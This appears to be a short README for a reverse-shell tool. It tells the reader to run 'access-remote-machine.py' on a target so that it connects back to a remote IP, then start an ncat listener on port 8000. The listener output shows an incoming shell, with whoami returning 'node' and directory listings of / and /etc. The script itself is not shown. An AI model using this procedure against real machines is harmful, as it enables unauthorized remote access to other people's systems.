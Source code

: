
Step 1: 
By running this on remote machine, it gives grants access to remote-ip mentioned in `access-remote-machine.py`
```
python access-remote-machine.py
```

Step 2: 
Install `ncat` if not installed on the machine

```
ncat -l -v -p 8000 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:32788.
whoami
node
whereis cat 
cat: /bin/cat /usr/share/man/man1/cat.1.gz

cd / && ls 
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

cd / && ls && cd /etc && ls 

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

X11
adduser.conf
alternatives
apparmor.d
apt
bash.bashrc
bash_completion.d
bindresvport.blacklist
ca-certificates
ca-certificates.conf
cron.d
cron.daily
cron.weekly
dbus-1
debconf.conf
debian_version
default
deluser.conf
dpkg
e2scrub.conf
emacs
environment
ethertypes
fonts
fstab
gai.conf
groff
group
group-
gshadow
gshadow-
gss
host.conf
hostname
hosts
init.d
inputrc
iproute2
issue
issue.net
kernel
ld.so.cache
ld.so.conf
ld.so.conf.d
libaudit.conf
libnl-3
locale.alias
locale.gen
localtime
logcheck
login.defs
logrotate.d
magic
magic.mime
manpath.config
mercurial
mime.types
```
